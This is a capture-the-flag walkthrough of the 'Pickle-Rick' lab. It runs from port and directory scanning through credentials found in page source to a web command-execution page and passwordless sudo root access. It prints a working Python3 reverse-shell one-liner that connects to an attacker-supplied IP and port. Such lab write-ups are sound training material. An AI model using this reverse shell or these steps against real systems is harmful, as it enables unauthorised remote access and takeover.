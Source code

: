 # Pickle-Rick

_13th September 2020_

## Host enumeration

The initial scan reports the following.

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Analysis

Since HTTP is running on port 80, we can proceed to view the web page on `http://<IP>/`.
The page source contains a comment with the following. We continue to look for more clues.

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->
```

## Web enumeration

A `gobuster` scan reveals the following.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.220.205
[+] Threads:        30
[+] Wordlist:       ../../Wordlists/directory-list-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/09/13 14:11:12 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
Progress: 7526 / 220560 (3.41%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/09/13 14:14:23 Finished
===============================================================
```

### Analysis

`robots.txt` contains a string : `Wubbalubbadubdub`.
`/assets` contains a few images and gifs.
`/login.php` contains a login page. Logging in with the previously obtained credentials ie., R1ckRul3s:Wubbalubbadubdub, gives us a page with command execution capabilities. The `ls` command shows us multiple files but the command execution page does not let us use commands like cat, head, tail, etc. to view the files. The `less` command seems to work and on opening the file `Sup3rS3cretPickl3Ingred.txt`, we get the first key.

## Reverse shell

Python3 seems to be available on the server, so we can try to upload a reverse shell payload in Python3.

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Analysis

A shell is obtained. We can open the files without any restriction now. The `clue.txt` file contains a clue asking us to look around in the file system.

```
Look around the file system for the other ingredient.
```

By intuition, we can move to the `/home` directory. It contains a subdirectory called `rick` which contains a file called `second ingredients`. Upon opening this file, we get the second key.

## Privilege escalation

Looking at the permissions of the current user, we find that (www-data) can execute all commands without a password. So we run `sudo bash` to get a shell as the (root) user.

### Analysis

Moving to the `/root` directory as the (root) user, we find a file called `3rd.txt` which contains the final key.

